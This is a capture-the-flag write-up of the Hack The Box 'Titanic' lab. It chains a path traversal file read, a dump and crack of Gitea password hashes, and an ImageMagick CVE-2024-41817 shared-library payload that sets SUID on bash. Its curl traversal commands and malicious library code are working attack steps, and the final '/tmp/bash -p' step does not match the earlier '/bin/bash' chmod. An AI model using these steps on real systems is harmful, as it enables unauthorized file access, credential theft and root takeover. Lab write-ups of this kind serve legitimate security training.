

Titanic is an easy Linux box featuring path traversal, Gitea enumeration, and ImageMagick exploitation.

## Reconnaissance

I ran a full port scan to identify exposed services.

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web service redirected to `titanic.htb`, so I added it to my `/etc/hosts` file.


## Initial Access

The main page offered a simple booking form. After submitting details, it prompted a JSON download. Intercepting the request with Burp Suite revealed a GET to `/download?ticket=<UUID>.json`.


Testing path traversal worked immediately:

```bash
curl "http://titanic.htb/download?ticket=../../../../../etc/hosts"
```

```text
127.0.0.1 localhost titanic.htb dev.titanic.htb
127.0.1.1 titanic

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```



The `/etc/hosts` file revealed a new subdomain `dev.titanic.htb`, which I added to my hosts file. Visiting it showed a Gitea instance with two repositories under the `developer` user: `flask-app` and `docker-config`.

The `flask-app` repo contained the main application source but also referenced two potential usernames: `rose.bukater` and `jack.dawson`.

The `docker-config` repo was more interesting, containing docker-compose files:

```yaml
version: '3'
 
services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

Gitea documentation indicated the config file would be at `/data/gitea/conf/app.ini`. Using the path traversal, I retrieved it:

```bash
curl "http://titanic.htb/download?ticket=../../../../../home/developer/gitea/data/gitea/conf/app.ini"
```

```text
APP_NAME = Gitea: Git with a cup of tea
RUN_MODE = prod
RUN_USER = git
WORK_PATH = /data/gitea

--- SNIP ---

[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD =
LOG_SQL = false
SCHEMA =
SSL_MODE = disable
```

The config confirmed an SQLite database at `/data/gitea/gitea.db`. I downloaded it:

```bash
curl "http://titanic.htb/download?ticket=../../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

Opening the database revealed user hashes:

```bash
sqlite3 gitea.db
```

```sql
sqlite> select name,passwd,salt,passwd_hash_algo from user;
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b|pbkdf2$50000$50
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34|pbkdf2$50000$50
```

I converted the developer hash for hashcat:

```bash
python gitea2hashcat.py '8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
```

```text
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Hashcat cracked it quickly as `25282528`. SSH login worked:

```bash
ssh developer@titanic.htb
```

## Privilege Escalation

The developer user had no sudo privileges. Checking common directories revealed `/opt/scripts/identify_images.sh` owned by root:

```bash
cat /opt/scripts/identify_images.sh
```

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

The script ran `magick identify` on JPG files in a writable directory. Checking the version:

```bash
/usr/bin/magick -version
```

```text
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

This version matched CVE-2024-41817 https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8. I moved to the images directory and compiled a malicious shared library:

```bash
cd /opt/app/static/assets/images/

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod u+s /bin/bash");
    exit(0);
}
EOF
```

After waiting for root to execute the cron job, the SUID bash was ready:

```bash
/tmp/bash -p
```

## Attack Path

- **Port scan** — identify SSH and HTTP with `titanic.htb` redirect.
- **Path traversal** — exploit `/download?ticket=` parameter to read arbitrary files.
- **Subdomain discovery** — find `dev.titanic.htb` in `/etc/hosts`.
- **Gitea enumeration** — review `docker-config` repo for volume mounts.
- **Download Gitea config** — retrieve `app.ini` to locate SQLite database.
- **Extract user hashes** — dump Gitea database and convert for hashcat.
- **Crack developer password** — recover `25282528` and SSH into the host.
- **Find cron script** — locate root-owned `identify_images.sh` in `/opt/scripts`.
- **ImageMagick vuln** — identify CVE-2024-41817 in version 7.1.1-35.
- **Compile malicious library** — drop `libxcb.so.1` in writable images directory.
- **Wait for cron execution** — get SUID bash and escalate to root.
